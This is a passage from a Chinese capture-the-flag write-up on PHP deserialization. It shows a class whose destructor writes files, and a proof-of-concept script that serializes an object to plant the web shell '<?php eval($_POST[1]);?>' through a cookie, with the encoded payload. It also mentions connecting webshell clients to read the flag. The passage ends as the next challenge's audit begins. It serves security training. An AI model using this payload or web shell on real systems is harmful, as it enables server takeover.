 再看class.php：

```php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

好像可以file_put_contents写马~，再看看再哪里可以触发反序列化
在checklogin.php找到：![](https://i.loli.net/2021/10/06/cZrLxEUkWYApJtX.png)

那么构造payload在cookie传进去就可以了

poc:

```php
<?php

class user{
    public $username = 'a.php';
    public $password = '<?php eval($_POST[1]);?>';
}

$a = new user();
echo urlencode(serialize($a));


# O%3A4%3A%22user%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A5%3A%22a.php%22%3Bs%3A8%3A%22password%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3B%7D
```

![](https://i.loli.net/2021/10/06/Nlok7mSn6TeLZ4h.png)

flag还是在数据库里，拿哥斯拉（哥斯拉连好像只能连post的马--）或者蚁剑连一下：

![](https://i.loli.net/2021/10/06/J7ugztwWy3vNIbV.png)



## 306 反序列化传马

> hint: 开始使用mvc结构
>
> 即模型-视图-控制器

审计会发现存在许多类和函数作为控制器

seay扫一下危险函数，找到class.php log类的close()
